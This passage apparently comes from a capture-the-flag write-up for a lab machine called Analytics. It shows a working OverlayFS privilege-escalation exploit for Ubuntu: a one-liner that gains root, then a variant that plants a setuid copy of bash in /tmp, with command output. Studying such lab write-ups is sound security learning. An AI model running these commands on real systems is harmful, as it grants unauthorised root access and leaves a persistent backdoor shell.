 ![LinPEAS](/assets/images/2024/03/Analytics/LinPEAS.png "LinPEAS")

After a long time, I searched for exploits in the Ubuntu version. I quickly found a [CVE for it](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/). It used OverlayFS to mount a file system and run Python with the setuid capability.

I tried the POC.

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

It worked, so I used the same technique to copy `bash` and make it `suid`.

```bash
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /tmp/; chmod u+s /tmp/bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists

metalytics@analytics:~$ ls -ltrh /tmp
total 1.4M
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-systemd-timesyncd.service-ZXXixc
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-systemd-resolved.service-NfUc7h
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-systemd-logind.service-9GMRMw
drwx------ 3 root       root       4.0K Jan 20 15:36 systemd-private-b0ef0bbaa3354ec2815aa91746b913f4-ModemManager.service-Y02l6g
drwx------ 2 root       root       4.0K Jan 20 15:37 vmware-root_427-1849560532
```